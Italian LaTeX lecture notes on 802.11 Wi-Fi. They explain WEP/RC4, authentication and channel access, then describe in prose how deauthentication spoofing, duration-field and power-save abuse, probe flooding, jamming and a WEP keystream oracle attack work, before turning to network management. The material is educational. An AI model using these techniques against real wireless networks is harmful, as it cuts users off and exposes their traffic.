	
\includegraphics[scale = 0.5]{images/RC4-encryption}
	\caption{Procedura di encryption con RC4.}
	\label{img:RC4-encryption}
\end{figure}
\begin{enumerate}
	\item Si concatena la chiave WEP con il IV per generare il \textit{seed}.
	\item Il blocco WEP PRNG (Pseudo Random Number Generator, basato su RC4) genera un \textit{keystream} a partire dal \textit{seed}.
	\item Sul \textit{plaintext} (testo in chiaro) si applica un algoritmo di \textit{error detection} (CRC-32) ed il CRC viene concatenato al pacchetto in chiaro.
	\item Si effettua uno XOR con la chiave.
	\item Si trasmette il pacchetto con l'IV nell'header (non cifrato) ed il payload cifrato.
\end{enumerate}
RC4 utilizza in 802.11b chiavi a 40 bit. In generale un buon (pseudo) random generator è un algoritmo che, a partire dal seed, ad ogni passo genera uno o più numeri nel modo più impredicibile possibile, dovrebbe avvicinarsi cioè al \textit{rumore bianco}. Si noti che l'impredicibilità assoluta è impossibile. Vediamo dunque la procedura di decifratura (Figura \ref{img:RC4-decryption}):
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/RC4-decryption}
	\caption{Procedura di decryption con RC4.}
	\label{img:RC4-decryption}
\end{figure}
\begin{enumerate}
	\item Dal pacchetto si estrae l'IV ed il payload cifrato.
	\item Dall'IV e dalla chiave WEP si ricrea il \textit{keystream}.
	\item Si effettua uno XOR tra il \textit{keystream} ed il payload ottenendo il payload in chiaro.
	\item Si separa il payload dal CRC e si ricalcola il CRC per verificare l'integrità.
\end{enumerate}
Cifrare anche il CRC significa che se un attaccante non conosce la chiave di cifratura può modificare il pacchetto, ma non può rendere coerente il CRC. Così facendo si ottiene la sicurezza dell'integrità delle informazioni. Vediamo quindi come viene effettuata l'\textit{autenticazione dei frame}:
\begin{enumerate}
	\item Si calcola il CRC sul payload in chiaro.
	\item Si concatena il CRC al payload in chiaro e si effettua uno XOR tra il \textit{keystream} ed il payload ottenendo il payload cifrato.
	\item Si trasmette il pacchetto (header in chiaro, payload cifrato).
	\item Una volta ricevuto il pacchetto, si estrae l'IV dall'header e si utilizza per ricalcolare il \textit{keystream} (attraverso la chiave WPA); si esegue uno XOR con il pacchetto e si ricava il payload in chiaro concatenato al CRC.
	\item A questo punto si ricalcola il CRC dal payload in chiaro e si confronta con quello ricevuto. Se i due valori coincidono, la trasmissione è avvenuta senza manomissioni.
\end{enumerate}
Così facendo otteniamo un controllo di integrità sul payload.

Facciamo adesso alcune precisazioni e note sul WEP. (a) L'autenticazione dei pacchetti non utilizza algoritmi a chiave pubblica/privata; dovrebbe invece esserci sempre un segreto condiviso in precedenza, dunque un canale sicuro. (b) Alcuni AP implementano un filtro sugli indirizzi MAC da far accedere alla rete per evitare accessi indesiderati. (c) Non esiste controllo di unicità dei pacchetti, due pacchetti possono essere identici. (d) Non esiste controllo di sequenza dei pacchetti, il valore di IV viene deciso dagli apparati senza una politica definita (e.g. randomica, incrementale, $\dots$). Un attaccante può ripetere un pacchetto anche senza conoscerne il significato: i protocolli di livello superiore hanno il compito di gestire i dati, accettandoli o rifiutandoli.

Vediamo ora nel dettaglio l'ingresso e l'uscita dalla rete (cfr. macchina a stati in Figura \ref{img:802_11-state-machine}). Per quanto riguarda l'\textit{associazione} (richiesta di voler dialogare con l'AP), una volta autenticato, il client deve notificare all'access point che vuole entrare nella rete; questo avviene semplicemente in due fasi: (1) Il client chiede di associarsi, (2) L'access point invia una conferma. Per quanto riguarda, invece, l'uscita dalla rete sono previste le fasi di \textit{deautenticazione} e \textit{deassociazione}; per deautenticare il client, l'AP invia un messaggio di deautenticazione ed il client deve ripetere l'autenticazione, mentre per deassociare un client, l'AP invia un messaggio di deassociazione e il client deve ripetere l'associazione. Se il client riceve un messaggio di deautenticazione quando è anche associato, allora dovrà ripetere entrambe le fasi. Si noti che questi sono tutti pacchetti di management.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.3]{images/802_11-state-machine}
	\caption{Macchina a stati per l'ingresso e l'uscita dalla rete del protocollo 802.11.}
	\label{img:802_11-state-machine}
\end{figure}\\
Per quanto riguarda la tecnica di \textit{accesso al canale}, l'802.11 prevede che i client della LAN condividano lo stesso canale fisico con una politica di accesso CSMA/CA. In modalità infrastructure, l'AP si comporta da centro stella, dunque tutto il traffico viene inviato all'AP che, a sua volta, lo redirige verso ai client. Nell'intestazione di ogni pacchetti ACK/RTS è presente un campo \textit{duration} in cui il client specifica un periodo di tempo durante il quale il canale è prenotato: in tale periodo il canale non viene utilizzato da altri client. Un problema molto noto di questo tipo di accesso è il \textit{problema del terminale nascosto}. Si consideri la situazione rappresentata in Figura \ref{img:hidden-node-problem}.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/hidden-node-problem}
	\caption{Problema del terminale nascosto.}
	\label{img:hidden-node-problem}
\end{figure}\\
Le ellissi rappresentano le aree di copertura tra l'AP ed i client $C_1$ e $C_2$. In sostanza, l'AP può comunicare con entrambi i client $C_1$ e $C_2$, ma qualcosa (ad esempio la distanza) impedisce a $C_1$ e $C_2$ di comunicare direttamente tra loro e quindi anche di poter rilevare (\textit{sensing}) la portante trasmessa dall'altro client verso l'AP. In questo contesto è allora possibile che si verifichino collisioni in ricezione sull'AP quando entrambi i client $C_1$ e $C_2$, rilevando il canale libero, trasmettono contemporaneamente verso l'AP. Per evitare collisioni, lo standard IEEE 802.11 permette di usare un meccanismo con il quale la stazione, prima di inviare un frame, richiede la trasmissione di speciali piccoli pacchetti:
\begin{itemize}
	\item \textbf{RTS} (Request To Send): oltre a riservarsi il mezzo, fa tacere qualsiasi stazione che lo sente.
	\item \textbf{CTS} (Clear To Send): viene inviato dall'AP in risposta all'RTS, e ha il compito di far tacere le stazioni nell'immediata vicinanza.
\end{itemize}
Dunque, se ad esempio $C_1$ vuole trasmettere all'AP, invia un messaggio RTS. Se l'AP non sta comunicando con nessun altro nodo, allora invia un messaggio CTS in cui dà il permesso a $C_1$ di trasmettere, ed a tutti gli altri nodi (nel caso in Figura \ref{img:hidden-node-problem} solo $C_2$) indica che in quel momento sta effettuando una comunicazione con un altro nodo.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/802_11-channels}
	\caption{Canali del protocollo 802.11.}
	\label{img:802_11-channels}
\end{figure}\\
A scopo informativo, in Figura \ref{img:802_11-channels} sono riportate le bande di frequenza dei 13 canali sulle quali lavora il protocollo 802.11. Notiamo che vi sono parziali sovrapposizioni tra i canali (in termini di frequenze fuori dal centrobanda) e queste possono causare dei disturbi. In pratica, anche se viene utilizzato soltanto il centrobanda, è impossibile realizzare dei filtri passabanda che taglino precisamente un intervallo di frequenze (cioè dei filtri ideali); allontanandosi dal centrobanda, quindi, il segnale è attenuato progressivamente ma non è esattamente nullo. Questo problema viene risolto semplicemente utilizzando canali che non presentano overlap, ad esempio 1, 6 e 11.

Facciamo adesso una precisazione sui beacon frame. Il beacon è un pacchetto che viene inviato dagli AP per segnalare la propria presenza. I contenuti più importanti del Beacon Frame sono: la \textit{modalità} (ad-hoc o infrastructure), \textit{SSID} (cioè il nome dell'AP; è necessario specificarlo per entrare nella rete durante la fase dell'associazione) e \textit{privacy} (definisce se l'AP supporta WEP o meno). Allo stato attuale le reti ad-hoc sono poco utilizzate.

Il WDS (Wireless Distribution System) è un sistema di scambio di dati tra AP. Quando gli APs vogliono fare routing dei pacchetti tra di loro, per unire due reti distinte fisicamente in una unica rete logica devono utilizzare le interfacce WDS. Sulle interfacce WDS si può utilizzare WEP, ma non esiste associazione o autenticazione. L'utilizzo di interfacce WDS tuttavia sottrae banda per il servizio della rete infrastructure.

\section{Insicurezze del protocollo 802.11}
Le insicurezze che vedremo sono relative al protocollo 802.11 nelle versioni a/b/g. Alcune di queste non riguardano gli algoritmi crittografici utilizzati, quindi si ritrovano anche nella versione 802.11i.

Gli attacchi \textit{Denial of Service} (DoS) sono attacchi mirati all'interruzione dell'erogazione del servizio. Se il servizio è l'accesso stesso Internet (ad esempio un hotspot che offre connettività), il danno in termini economici è rilevante; esistono infatti situazioni Mission Critical in cui non è possibile permettersi di non avere connettività (e.g. scadenze produttive, reti di emergenza, etc.) e l'interruzione del servizio rende all'utente una generale impressione di inaffidabilità, dunque lo allontana. Le reti Wi-Fi in generale non dovrebbero essere usate in situazioni Mission Critical.\\
Abbiamo già visto come avviene l'autenticazione di un host verso l'AP: il client chiede di autenticarsi, l'AP risponde con un challenge text ed infine il client risponde con il challenge text cifrato. I pacchetti di autenticazioni non sono a loro volta autenticati, dunque un attaccante potrebbe falsificarli. In particolare, durante la fase di ingresso, l'attaccante attende l'autenticazione e risponde al posto dell'AP con un pacchetto di deautenticazione. In questo modo può evitare che le macchine entrino in rete ed in qualsiasi momento l'attaccante può inviare un pacchetto per forzare l'uscita dalla rete di un client. Gli scopi possono essere molteplici; ad esempio è possibile evitare che un determinato client si connetta o semplicemente è possibile tenere fuori dalla rete altri client per avere più banda. Tuttavia, se l'attaccante vuole continuare a produrre l'attacco deve continuamente stare in ascolto di nuove autenticazioni.\\
Lo stesso tipo di attacco può essere effettuato sull'associazione (cfr. Figura \ref{img:802_11-state-machine}); la differenza sta nel fatto che questo attacco non richiede una riautenticazione, quindi ha meno impatto. Può servire ad esempio a far rivelare l'SSID ad un AP che non lo vuole mostrare.\\
Questi due tipi di attacco sono ancora più pericolosi se l'attaccante, oltre a cambiare l'indirizzo sorgente (\textit{spoofing}), utilizza l'indirizzo destinazione di broadcast. Alcuni client sono configurabili per non accettare le richieste di deautenticazione/deassociazione in broadcast, non rispettando tuttavia lo standard.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.8]{images/802_11-frame}
	\caption{Formato generico del frame 802.11 e formato del campo \textit{framecontrol}.}
	\label{img:802_11-frame}
\end{figure}\\
Un altro tipo di attacco DoS è quello sull'\textit{accesso al canale}. Si consideri il formato del generico frame 802.11 riportato in Figura \ref{img:802_11-frame}. Il campo \textit{duration} (espresso in $\mu s$) specifica il tempo per cui il canale rimarrà occupato dal mittente del pacchetto; ogni macchina della rete che riceve un pacchetto qualsiasi, anche se non è rivolto al proprio indirizzo MAC, deve leggere e rispettare il campo \textit{duration}. Un attaccante potrebbe inviare un nuovo pacchetti prima che scada il timeout, prenotando nuovamente il canale. In questo modo nessuna macchina, esclusa quella dell'attaccante, può trasmettere. Sostanzialmente questo è un errore di progettazione del protocollo: l'informazione \textit{duration} dovrebbe essere inviata separatamente dalle altre presente nel frame.\\
Il quarto tipo di attacco DoS che prendiamo in considerazione è quello sulla \textit{modalità Power Save}. Consideriamo il formato del campo \textit{framecontrol} riportato in Figura \ref{img:802_11-frame}. Il bit Power Save (Pwr) viene utilizzato dal client per segnalare all'AP che sta entrando in modalità power save. In modalità power save l'AP non trasmette il traffico al client: i frames sono salvati in un buffer e vengono trasmessi a burst quando il client li richiede. Un attaccante potrebbe inviare, con una certa frequenza, pacchetti modificati con il bit power save $\text{Pwr} = 1$ (\textit{spoofing}). In questo modo l'AP non trasmetterà mai i frames memorizzati nel buffer. Il risultato è un DoS che isola una singola macchina della rete senza uno sforzo notevole da parte dell'attaccante.\\
Il quinto tipo di attacco DoS è quello che causa una \textit{saturazione} della banda. Per individuare le macchine circostanti vengono utilizzati dei \textit{probe} (pacchetti simili a quelli del ping, ma di livello 2): la macchina richiedente invia all'indirizzo di broadcast un messaggio di management di tipo \textit{probe request} e tutte le macchine che ricevono la richiesta rispondono con un \textit{probe reply} diretto al richiedente. I messaggi di probe, essendo messaggi di management, non vengono cifrati, dunque l'attaccante potrebbe falsificarli provocando risposte dagli altri host della rete. Ripetendo continuamente le richieste è possibile occupare tutta la banda disponibile sfruttando l'effetto di riflessione degli altri host. Al contrario del DoS sulla deautenticazione, in questo caso gli host non possono evitare di rispondere ai messaggi di probe in broadcast, perché verrebbe annullata l'utilità stessa del meccanismo di probing.\\
Il sesto (ed ultimo) tipo di attacco DoS viene effettuato a livello fisico: il \textit{jamming}. Il protocollo 802.11 utilizza una codifica \textit{spread spectrum}, in cui il segnale viene trasmesso utilizzando una banda più larga di quanto non sarebbe necessario, aggiungendo ridondanza; a destinazione il segnale viene ricostruito in una gamma più stretta. In questo modo un segnale molto potente, ma concentrato su una gamma di frequenze molto ristretta, viene ricevuto a destinazione (dopo la ricostruzione) come un rumore distribuito su tutta la banda. È quindi molto difficile riuscire a disturbare la ricezione di tutti i dati. Nonostante questo è molto importante notare che i pacchetti del protocollo 802.11 hanno un codice di controllo degli errori (Figura \ref{img:802_11-frame}). Dunque, anche se è difficile disturbare la ricezione di un intero pacchetto, se si riesce a disturbare la ricezione di un solo bit, che statisticamente è un risultato più accessibile, si provoca il fallimento del controllo di errore ed il pacchetto viene scartato, quindi deve essere trasmesso di nuovo.

Un altro tipo di attacco è quello che mira ai \textit{software degli AP}; vediamo due esempi. Spesso gli AP presentano interfacce web per la gestione. Le macchine collegate alla rete possono accedere all'interfaccia di gestione, da cui è possibile configurare gli AP. Si è verificato spesso che queste interfacce presentassero delle vulnerabilità come \textit{buffer overflow} o password attive di default che permettessero anche agli utenti della rete senza password di amministrazione di modificare delle configurazioni. A volte un reset improvviso degli AP potrebbe provocare un riavvio in una modalità provvisoria che offre anche ad utenti senza credenziali di accedere all'interfaccia di gestione.\\
Un altro esempio sfrutta un bug dei software degli AP. Gli AP devono mantenere una lista delle macchine autenticate nella rete, delle macchine associate e delle macchine che hanno richiesto l'autenticazione ma che ancora non hanno completato le procedure. Quando una lista si riempie, le altre richieste in arrivo vengono scartate. Per la gestione di queste liste devono essere applicate politiche efficienti; alcuni esempi di inefficienza sono i seguenti:
\begin{itemize}
	\item Le liste sono delle code a scorrimento: se la lista è piena e arriva una nuova macchina, la più vecchia viene tolta dalla lista. Forgiando richieste di autenticazione false si riempie la lista e si impediscono anche le autenticazioni già in corso.
	\item Le tre liste sono unite in una sola lista. Questa inefficienza ha un effetto peggiore rispetto a quello del difetto precedente.
	\item Non avviene una corretta gestione della memoria per le liste. Si può pertanto produrre un buffer overflow, provocando il blocco o il riavvio dell'AP.
\end{itemize}
Esistono molti esempi di \textit{exploit} su AP derivanti da bug di questo tipo.

Un altro aspetto relativo alle insicurezze del protocollo 802.11 è l'\textit{autenticazione con shared key}. Come già detto, la chiave è unica ed in questo modo non esiste alcuna segretezza, dunque autenticazione tra macchine della stessa rete. Una macchina autenticata può spostare la chiave su altre macchine e lasciare che queste entrino. Anche le Access List sugli AP (che non fanno parte dello standard) sono generalmente statiche, quindi il problema della gestione è importante. Inoltre, sulla maggior parte delle schede wireless, è possibile cambiare l'indirizzo MAC. Essendo quindi la chiave statica, tutta la fiducia è riposta nella certezza che l'algoritmo di autenticazione e cifratura sia robusto. Per lo stesso motivo l'AP non si autentica con le macchine.\\
L'autenticazione shared key è tragicamente insicura: nel giro di pochi secondi passa lo stesso testo (128 byte) prima in chiaro e poi cifrato. L'attaccante può recuperare un frammento di keystream che può utilizzare per inviare pacchetti nella rete (anche senza possedere la chiave WEP), può effettuare un attacco di tipo reply anche senza conoscere la chiave (spacciandosi per l'AP) e può effettuare il cosiddetto \textit{attacco dell'oracolo} (\textit{oracle attack}). Lo scopo di questo attacco è quello di inviare un messaggio nella rete senza conoscere la chiave segreta. In pratica in un primo monento l'attaccante provvede a deautenticare un client; successivamente forgia un pacchetto con un challenge text contenente i dati che vuole inviare in rete ed a questo punto il client risponde restituendo il challenge text cifrato con un certo IV, ovvero il pacchetto valido, pronto per essere inviato lungo massimo 128 byte. L'attacco può essere utilizzato verso un client, quando nella rete non avviene autenticazione shared key, per ricavare un frammento di keystream. Una volta conosciuta una parte del keystream (128 byte) vi è la necessità di aggiungere altre informazioni al pacchetto affinché questo risulti completo. Il challenge text non può essere allungato perché la parte di autenticazione prevede 128 byte. L'idea è quindi quella di aggiungere poche informazioni alla volta e provare ad inviare il pacchetto osservando la risposta. Si effettuano dunque delle richieste a lunghezza variabile a cui gli host sono costretti a rispondere, come ad esempio il ping. Questo attacco non ha tuttavia un utilizzo concreto molto comune, ma dimostra la goffaggine con cui sono stati progettati i meccanismi di sicurezza del protocollo.\\
Questi problemi hanno spinto i produttori di AP e i gestori delle reti a preferire come scelta di default l'autenticazione open system, ovvero senza alcuna forma di autenticazione. Per evitare che chiunque entri nella rete si preferisce mascherare nei beacon l'SSID dell'AP che è un parametro necessario per richiedere l'associazione, ma in questo modo si crea un'altra divergenza dallo standard.
%\chapter{Gestione delle reti}
Una rete di comunicazione viene concepita, implementata e gestita con uno o più \textit{scopi} come, ad esempio, una \textit{rete telefonica}, per comunicazioni vocali tra individui, una rete \textit{internet}, per il trasferimento e la condivisione di dati eterogenei, etc. Vi è molta differenza tra gli \textit{obiettivi} con cui una rete viene concepita (protocolli, standard, etc.) e quelli con cui questa viene \textit{gestita} dagli operatori; sicuramente il \textit{tempo} ed il \textit{business} sono due fattori determinanti.\\
Con il termine \textbf{management} si intendono tutte le operazioni che assicurano l'effettivo ed efficiente utilizzo di un sistema di comunicazioni e delle sue risorse in accordo con gli obiettivi aziendali. Si noti comunque che questa definizione è generica, può essere applicata anche a sistemi diversi da quelli di telecomunicazioni e gli \textit{obiettivi aziendali} possono essere correlati o meno con le telecomunicazioni.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/management_levels}
	\caption{Livelli di management.}
	\label{img:management_levels}
\end{figure}\\
In Figura \ref*{img:management_levels} sono rappresentati i livelli del management, iniziamo a descriverli dal basso. Il \textit{network management} mira ad occuparsi della gestione delle risorse di comunicazione, come ad esempio switch, router, linee, protocolli, etc., e dei servizi da essi offerti. Il \textit{system management} si occupa della gestione delle risorse dei sistemi finali e dei sistemi connessi alla rete (terminali, telefoni, servers, etc.). L'\textit{application management} tende ad occuparsi della gestione delle applicazioni distribuite (o meno) e dei servizi offerti in modo distribuito come e-mail e file sharing clusterizzato. Nell'\textit{enterprise management} o \textit{management integrato}, infine, tutti i livelli di management concorrono allo stesso scopo.
\begin{figure}[htbp]
	\centering
	\begin{tikzpicture}
		\tikzset{mynode/.style={font=\footnotesize,inner sep=0pt,text=black}}
		%Begin plot
		\draw[-latex] (0,0,0) -- (2,0,0)node[mynode,anchor=west]{Tipi di Informazioni};
		\draw[-latex] (0,0,0) -- (0,2,0)node[mynode,anchor=south]{Aree funzionali};
		\draw[-latex] (0,0,0) -- (0,0,2)node[mynode,anchor=north]{Discipline};
		\draw[-latex] (0,0,0) -- (-2,1,0)node[mynode,anchor=north west,xshift=-2cm,yshift=0.5cm]{Tipologie di Rete};
		\draw[-latex] (0,0,0) -- (0,0,-4)node[mynode,anchor=north east,xshift=0.7cm,yshift=0.3cm]{Fasi};	
	\end{tikzpicture}
	\caption{Tipi di management.}
	\label{img:management_types}
\end{figure}\\
Come è possibile osservare dalla Figura \ref{img:management_types} vi sono vari tipi di management. Le \textit{aree funzionali} comprendono tutto ciò che riguarda configuration, performance, fault, security, accounting. Le \textit{fasi}, invece, planning, installation, operation, change, dismissing. Le \textit{tipologie di rete} comprendono internet, VPN, corporate, WAN, LAN, etc. Non esiste dunque un solo sistema di management e quindi non esiste una sola soluzione per il management, contando il fatto che non abbiamo parlato di organizzazione, fattori economici e legali, etc. Sostanzialmente l'idea fondamentale è quella di \textit{utilizzare concetti e formati standard per permettere l'interscambio di informazioni tra i vari livelli di management e tra le entità che lo compongono} (integrated management).

\noindent Vediamo adesso la \textit{management architecture}, ossia l'insieme degli standard relativi al management. Questa è suddivisa in:
\begin{itemize}
	\item \textbf{Information model}. Descrive il sistema sintattico e semantico per la rappresentazione delle risorse e delle informazioni in maniera orientata al management e indipendente dal venditore.
	\item \textbf{Communication model}. Descrive il sistema di accesso agli oggetti gestiti ed i protocolli di management.
	\item \textbf{Function model}. Organizza il sistema di management in sotto-task più gestibili e definisce funzioni di management generiche.
	\item \textbf{Organization model}. Definisce ruoli, modelli di cooperazione e domini di competenza.
\end{itemize}
L'unione dell'information e del communication model rappresenta gli \textquotedblleft elementi" hardware e software abbastanza comprensibili da un ingegnere, mentre l'unione di function ed organization model rappresenta gli \textquotedblleft elementi" organizzativi imprescindibili che coinvolgono persone e non macchine. Tutta questa architettura concorre a definire la \textbf{management platform}, che può (a volte) essere composta da elementi semplici, utilizzabili anche singolarmente (e.g. ping).

\noindent Per chi e perché viene attuato il management? In sostanza:
\begin{itemize}
	\item L'\textit{utente} finale è interessato ad avere un sistema affidabile, flessibile, sicuro, efficace, poco costoso, etc. e non è interessato a come viene realizzato. Tuttavia, le esigenze dell'utente sono alla base del management.
	\item L'\textit{azienda} vuole trarre profitti e anch'essa non è interessata a come un sistema viene realizzato. Tuttavia, anche le esigenze dell'azienda sono alla base del management.
\end{itemize}
Gli obiettivi del management devono dunque essere quelli di offrire all'utente il \textquotedblleft prodotto" (QoS, banda, whatever) richiesto e di gestire al meglio le risorse a disposizione evitando gli sprechi.

Una \textit{rete di telecomunicazioni} è progettata per offrire un servizio di comunicazione a distanza secondo modalità definite in un \textit{rapporto contrattuale}; quest'ultimo rappresenta la base del management. I soggetti coinvolti in questo rapporto sono sostanzialmente tre:
\begin{itemize}
	\item \textbf{Network operator}, cioè il gestore di rete. Si occupa di predisporre e di mantenere operativa l'infrastruttura necessaria al funzionamento dei servizi di telecomunicazioni utilizzando un supporto tecnico ed organizzativo. È sostanzialmente vincolato al rispetto dei requisiti di qualità per ognuno dei servizi supportati e di un costo di fornitura commisurato al beneficio ottenibile.
	\item \textbf{Service provider}, ossia il fornitore del servizio. Il service provider rende disponibili i servizi e le relative logiche di esecuzione che il cliente può personalizzare con modalità definite nei suoi impegni contrattuali (ivi compresi gli aspetti di qualità e costo). Utilizza inoltre le risorse dell'infrastruttura rese disponibili dal gestore di rete per trasferire l'informazione tra l'origine e la destinazione della comunicazione.
	\item \textbf{Service customer}, cioè il cliente che usufruisce del servizio.
\end{itemize}
Un \textit{servizio di telecomunicazione} è un servizio complesso che comprende: \textit{dispositivi terminali} (Terminal Equipment, TE) attraverso i quali l'utente usufruisce di uno o più servizi di telecomunicazione; \textit{dispositivi di accesso alla rete}; una \textit{rete} come piattaforma di connessione. Esso offre:
\begin{itemize}
	\item \textbf{Servizi applicativi}. Questi rispondono alle esigenze di comunicazione (in senso lato) degli utenti e comprendono, cioè, accanto alle problematiche connesse al trasferimento dell'informazione, anche aspetti legati all'utilizzazione finale.
	\item \textbf{Servizi di rete}. Rendono possibile il trasferimento dell'informazione tra due punti di accesso alla rete.
\end{itemize}
Generalmente abbiamo più \textit{tipologie di reti} di telecomunicazione, che si possono classificare in base a: \textit{profilo di utenza, mobilità dei terminali, estensione fisica, gamma dei servizi supportati}. La classificazione della rete aiuta a capire che tipo di management è necessario, quali tecnologie usare e, nel caso della sicurezza, è indispensabile per definire il \textit{Threat Model} visto in precedenza.

